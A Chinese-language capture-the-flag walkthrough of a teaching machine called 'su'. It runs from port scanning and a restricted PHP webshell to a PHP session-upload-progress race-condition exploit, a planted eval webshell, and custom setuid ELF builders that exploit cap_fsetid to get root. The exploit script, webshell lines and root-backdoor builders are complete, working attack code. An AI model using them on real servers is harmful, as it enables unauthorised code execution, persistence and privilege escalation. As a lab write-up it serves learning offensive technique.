










# su_lily2663

## 攻击总链

```
nmap 全端口扫描
   └─ 22/tcp ssh (OpenSSH 10.3)  +  80/tcp nginx (PHP 8.5.8)
        └─ 目录爆破 → /info.php (phpinfo 泄露) + /shell.php (受限 webshell)
             └─ 分析 shell.php: file_exists($f) && system(". $f")
                  └─ 绕过思路：需要一个"内容可控且真实存在"的文件
                       └─ PHP Session Upload Progress → /tmp/sess_<SID>
                            └─ 条件竞争 source 该文件 → RCE (nginx 用户)
                                 └─ 写持久化 webshell 到 /var/www/html/s.php
                                      └─ 提权枚举：10 个 SUID root 的 su1..su10
                                           └─ 解：php85 cap_fsetid → 覆盖 SUID 文件保留 SUID → root
```

## nmap

```bash
lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ nmap -p- -A 192.168.31.65
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-15 12:32 +0800
Nmap scan report for Maze (192.168.31.65)
Host is up (0.0057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.3 (protocol 2.0)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=10/15%OT=22%CT=1%CU=40647%PV=Y%DS=2%DC=T%G=Y%TM=6AD057
OS:87%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=21)S
OS:EQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=22)SEQ(SP=F7%GCD=1%ISR=10D%TI=
OS:Z%CI=Z%II=I%TS=22)SEQ(SP=FD%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=21)SEQ(SP=FE
OS:%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=21)OPS(O1=M5B4ST11NW8%O2=M5B4ST11NW8%O3
OS:=M5B4NNT11NW8%O4=M5B4ST11NW8%O5=M5B4ST11NW8%O6=M5B4ST11)WIN(W1=FE88%W2=F
OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW
OS:8%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=518B%RUD=G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G
OS:%RUCK=51A5%RUD=G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK
OS:=51BF%RUD=G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=51CB
OS:%RUD=G)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=51E3%RUD=
OS:G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   0.44 ms  LAPTOP-L8P806AH.mshome.net (172.22.64.1)
2   30.75 ms Maze (192.168.31.65)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.12 seconds
```

全端口扫描，开放了22和80端口，看web服务

考虑目录爆破

## dirsearch

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~]
└─$ dirsearch -u 192.168.31.65
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict
/usr/lib/python3/dist-packages/dirsearch/lib/core/fuzzer.py:280: SyntaxWarning: 'break' in a 'finally' block
  break

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/lily2663/reports/_192.168.31.65/_26-10-15_12-38-38.txt

Target: http://192.168.31.65/

[12:38:38] Starting:
[12:38:51] 200 -   64KB - /info.php
[12:38:59] 200 -  943B  - /shell.php

```

一个是phpinfo

一个是一个受限的webshell

```php
<?php
highlight_file(__FILE__);

$f = $_GET['f'] ?? '';
//从 GET 请求中获取名为 f 的参数值，若不存在则默认为空字符串。
if (file_exists($f)) 
//它要求传入的文件路径 $f 必须在服务器的文件系统中真实存在，ban了伪协议
{
    system(". $f");
    //如果文件存在，则通过 system() 函数将其拼接到 Shell 命令中执行
}

```

$f 必须同时通过 file_exists() 检查、又要被 shell 当命令执行。

从phpinfo找利用路径：

| 配置项                                      | 值                  | 安全含义                          |
| ------------------------------------------- | ------------------- | --------------------------------- |
| PHP                                         | 8.5.8 (FPM/FastCGI) | —                                 |
| nginx                                       | 1.30.4              | `client_max_body_size 1m`         |
| `DOCUMENT_ROOT`                             | `/var/www/html`     | —                                 |
| `disable_functions`                         | **no value**        | 未禁用任何函数                    |
| `open_basedir`                              | **no value**        | 无目录限制                        |
| `allow_url_fopen`                           | On                  | （对 `file_exists` 无效，见 4.2） |
| `session.upload_progress.enabled`           | **On**              | 可无 `session_start()` 自动建文件 |
| `session.upload_progress.cleanup`           | **On**              | 需条件竞争                        |
| `session.save_handler` / `save_path`        | files / no value    | 默认 `/tmp`                       |
| `session.use_strict_mode`                   | Off                 | 可自定 PHPSESSID                  |
| `enable_post_data_reading` / `file_uploads` | On / On             | 上传通道可用                      |
| `post_max_size` / `upload_max_filesize`     | 8M / 2M             | —                                 |

于是采取PHP Session Upload Progress 条件竞争

原理

```
当 session.upload_progress.enabled=On 时，只要 POST 请求中带有
PHP_SESSION_UPLOAD_PROGRESS 字段，PHP 会自动（无需 session_start()）在session.save_path 下创建 sess_<PHPSESSID>
```

形如：

```
upload_progress_<KEY>|a:5:{s:10:"start_time";i:...;...}
```

此处<KEY>完全可控，设 KEY 为 x;id;uname -a;echo MZPWNED;#，
则文件内容被 sh source 时：upload_progress_x 报错 → ;id; 执行 → 末尾 # 注释掉序列化残留

脚本：

```python
import sys, time, socket, threading, http.client, urllib.parse

TARGET = sys.argv[1] if len(sys.argv) > 1 else "http://192.168.31.65"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "ls -la /var/www/html;id;pwd"
SID, BOUND, MARK = "maze", "----mazeboundary", "MZPWNED"
SIZE = 950000  #限定了小于1M
KEY  = "x;%s;echo %s;#" % (CMD, MARK)

u = urllib.parse.urlparse(TARGET)
HOST, PORT = u.hostname, u.port or 80
CANDS = ["/tmp/sess_" + SID, "/var/lib/php/sessions/sess_" + SID]
stop, found = threading.Event(), []

def part(name, fn=None):
    h = '--%s\r\nContent-Disposition: form-data; name="%s"' % (BOUND, name)
    if fn:
        h += '; filename="%s"\r\nContent-Type: application/octet-stream' % fn
    return (h + "\r\n\r\n").encode()

HEAD  = part("PHP_SESSION_UPLOAD_PROGRESS") + KEY.encode() + b"\r\n" + part("file", "poc.bin")
TAIL  = ("\r\n--%s--\r\n" % BOUND).encode()
TOTAL = len(HEAD) + SIZE + len(TAIL)

def upload():
    while not stop.is_set():
        try:
            s = socket.create_connection((HOST, PORT), timeout=20)
            s.sendall(("POST /index.php HTTP/1.1\r\nHost: %s\r\n"
                       "Content-Type: multipart/form-data; boundary=%s\r\n"
                       "Content-Length: %d\r\nCookie: PHPSESSID=%s\r\n"
                       "Connection: close\r\n\r\n" % (HOST, BOUND, TOTAL, SID)).encode())
            s.sendall(HEAD + b"A" * SIZE + TAIL)
            s.settimeout(2)
            try:
                s.recv(100)
            except Exception:
                pass
            s.close()
        except Exception:
            pass

def hammer():
    while not stop.is_set():
        for p in CANDS:
            try:
                c = http.client.HTTPConnection(HOST, PORT, timeout=3)
                c.request("GET", "/shell.php?f=" + urllib.parse.quote(p, safe=""))
                b = c.getresponse().read().decode("utf-8", "replace")
                c.close()
                if MARK in b:
                    found.append(b)
                    stop.set()
                    return
            except Exception:
                pass

print("[*] target=%s  cmd=%s" % (TARGET, CMD))
for _ in range(4):
    threading.Thread(target=upload, daemon=True).start()
for _ in range(60):
    threading.Thread(target=hammer, daemon=True).start()
t0 = time.time()
while time.time() - t0 < 45 and not stop.is_set():
    time.sleep(0.5)
stop.set()
if found:
    print("[+] 成功:")
    print(found[0].split("</code></pre>")[-1].strip())
else:
    print("[-] 未命中，直接重跑")
```

## userflag

```bash
[*] target=http://192.168.31.65  cmd=ls /home/daochunhan;cat /home/daochunhan/user.txt
[+] 成功:
user.txt
flag{user-f40e447ab9ba43c5352eae22b260893a}
MZPWNED
```

## 后门维持

```bash
[*] target=http://192.168.31.65  cmd=ls -la /var/www
[+] 成功:
total 16
drwxr-xr-x    4 root     root          4096 Jul 27 23:40 .
drwxr-xr-x   13 root     root          4096 Jul 27 23:35 ..
drwxr-xr-x    2 nginx    nginx         4096 Oct 15 12:58 html
drwxr-xr-x    3 root     root          4096 Jul 27 23:35 localhost
```

/var/www/html属主恰为 nginx:nginx，可以在这创建持久化后门

```bash
<?php system($_GET['x']);?>
```


```
[*] target=http://192.168.31.65  cmd=echo '<?php @eval($_POST[1]);?>' > /var/www/html/muma.php
[+] 成功:
MZPWNED
```

蚁剑连接

## 找提权点

靶机叫做su，就找找su文件



```
你好，这是一个教学环境。你至少有 10 次机会可以提权到 root。
祝你学习工作顺利！

---

Hi, this is a teaching environment. You have at least 10 chances to escalate to root.
Good luck and happy hacking!

```



这10个su一模一样

且报错：



在 util-linux su里，这个文案只出现在一个地方：pam_start() 初始化失败

于是验证是否如此



根本不存在su / other/base-auth / base-account / base-password / base-session 

所以说这里是有意封死认证，找其他方向



su的权限部分观察到-rwsrwxrwx

这里的s代表suid，任何普通用户运行这些文件时，都会临时获得该文件所有者（即 root ）的最高系统权限

同时rwxrwx代表着低权限用户课读写执行

现在这个su认证是死路，直接尝试覆盖掉原本su文件

但如果尝试直接覆盖（重定向 / echo），会：

结果：可以成功覆盖，且文件的 SUID 权限会被系统降权
原理：虽然文件属于 root，但攻击者把所有人权限全开成了 rwx。
作为普通用户，对该文件拥有写（w）权限。
当执行 echo "clear" > su1 时，Linux 内核会允许你写入，但内核的安全保护机制会立刻触发，自动剥夺该文件的 SUID 权限。
它的权限会从 -rwsrwxrwx 降级为 -rwxrwxrwx，
从而变成一个没有提权功能的普通文件。

## 提权构造后门

这里要用到：**CAP_FSETID**

在现代 Linux 系统中，之前提到的“覆盖或修改文件时，系统自动抹去 SUID 权限”这一内核安全行为，其底层正是由 CAP_FSETID 能力来控制的

于是这里，用echo写，就没有带上CAP_FSETID，于是触发降权，枚举存在的程序：

```
getcap -r /
```



CAP_FSETID 的语义正是：进程写文件时，内核不清除 SUID/SGID 位。

而 su1~su10恰为 -rwsrwxrwx

于是攻击链闭合，使用php85写入文件，suid位保留

Linux 忽略脚本的 SUID，而不忽略elf的，于是本地构造二进制文件

bd：固定后门

```python
#!/usr/bin/env python3
"""
构造 A：通用 SUID 包装器（164 字节）-> payload_wrapper.bin

特点：无数据段，参数从栈上读，可执行任意命令
用法：python3 build_wrapper.py
"""

import struct

BASE, CODE_OFF = 0x400000, 0x78

code  = b"\x48\x89\xe3"                                               # mov rbx, rsp
code += b"\x31\xff" + b"\xb8" + struct.pack("<I", 105) + b"\x0f\x05"   # setuid(0)
code += b"\x31\xff" + b"\xb8" + struct.pack("<I", 106) + b"\x0f\x05"   # setgid(0)
code += b"\x48\x8b\x7b\x10"                                           # mov rdi,[rbx+0x10]  argv[1]
code += b"\x48\x8d\x73\x10"                                           # lea rsi,[rbx+0x10]  &argv[1]
code += b"\x48\x8b\x03"                                               # mov rax,[rbx]       argc
code += b"\x48\x8d\x54\xc3\x10"                                       # lea rdx,[rbx+rax*8+0x10] envp
code += b"\xb8" + struct.pack("<I", 59) + b"\x0f\x05"                 # execve
assert len(code) == 44, len(code)

total = CODE_OFF + len(code)

ehdr  = b"\x7fELF" + bytes([2, 1, 1, 0]) + b"\x00" * 8
ehdr += struct.pack("<HHIQQQIHHHHHH",
                    2, 0x3e, 1,
                    BASE + CODE_OFF,   # e_entry
                    64, 0, 0,
                    64, 56, 1,
                    64, 0, 0)
phdr  = struct.pack("<IIQQQQQQ",
                    1, 7, 0,
                    BASE, BASE,
                    total, total,
                    0x1000)

blob = ehdr + phdr + code
assert len(blob) == total
open("payload_wrapper.bin", "wb").write(blob)
print("payload_wrapper.bin  %d 字节" % len(blob))
```

i:临时提权，把 wrapper 装到系统里

```python
#!/usr/bin/env python3
"""
构造 B：固定命令版 ELF（命令写进数据段）-> payload_installer.bin

特点：代码 + 数据段，命令写死，只跑那一条
用法：python3 build_installer.py ["自定义命令"]
"""

import struct
import sys

BASE, CODE_OFF = 0x400000, 0x78

CMD = sys.argv[1] if len(sys.argv) > 1 else (
    "cp /tmp/bd /usr/local/bin/rootshell; "
    "chown root:root /usr/local/bin/rootshell; "
    "chmod 4755 /usr/local/bin/rootshell; "
    "ls -la /usr/local/bin/rootshell"
)

# ---------------- 代码（39 字节）----------------
code  = b"\x31\xff" + b"\xb8" + struct.pack("<I", 105) + b"\x0f\x05"   # setuid(0)
code += b"\x31\xff" + b"\xb8" + struct.pack("<I", 106) + b"\x0f\x05"   # setgid(0)
code += b"\x48\x8d\x3d\x0e\x00\x00\x00"                               # lea rdi,[rip+0xe] -> "/bin/sh"
code += b"\xbe\x00\x00\x00\x00"                                       # mov esi,<占位，稍后回填>
code += b"\x31\xd2"                                                   # xor edx,edx
code += b"\xb8" + struct.pack("<I", 59) + b"\x0f\x05"                 # execve
assert len(code) == 39, len(code)

# ---------------- 数据段 ----------------
S = BASE + CODE_OFF + len(code)        # ★ 必须在这时算（代码已完整）
data  = b"/bin/sh\x00"                 # S+0
data += b"-c\x00"                      # S+8
data += CMD.encode() + b"\x00"         # S+11
while len(data) % 8:                   # 8 字节对齐
    data += b"\x00"
argv_vaddr = S + len(data)             # argv[] 的位置

# 回填 mov esi, argv_vaddr
code = code[:25] + b"\xbe" + struct.pack("<I", argv_vaddr) + code[30:]
assert len(code) == 39

data += struct.pack("<QQQQ", S + 0, S + 8, S + 11, 0)   # argv[] = {ptr,ptr,ptr,NULL}

# ---------------- ELF 外壳 ----------------
total = CODE_OFF + len(code) + len(data)

ehdr  = b"\x7fELF" + bytes([2, 1, 1, 0]) + b"\x00" * 8
ehdr += struct.pack("<HHIQQQIHHHHHH",
                    2, 0x3e, 1,
                    BASE + CODE_OFF,   # e_entry
                    64, 0, 0,
                    64, 56, 1,
                    64, 0, 0)
phdr  = struct.pack("<IIQQQQQQ",
                    1, 7, 0,
                    BASE, BASE,
                    total, total,
                    0x1000)

blob = ehdr + phdr + code + data
assert len(blob) == total
open("payload_installer.bin", "wb").write(blob)
print("payload_installer.bin  %d 字节" % len(blob))
print("内嵌命令: %s" % CMD)

```

然后上传：

使用php85执行：

```php
<?php file_put_contents("/var/tmp/su9", file_get_contents("/tmp/i"));
```



运行后门



验证后门



## rootflag

```
flag{root-7beb8555c08d73b62d27e5fe69886bba}
```

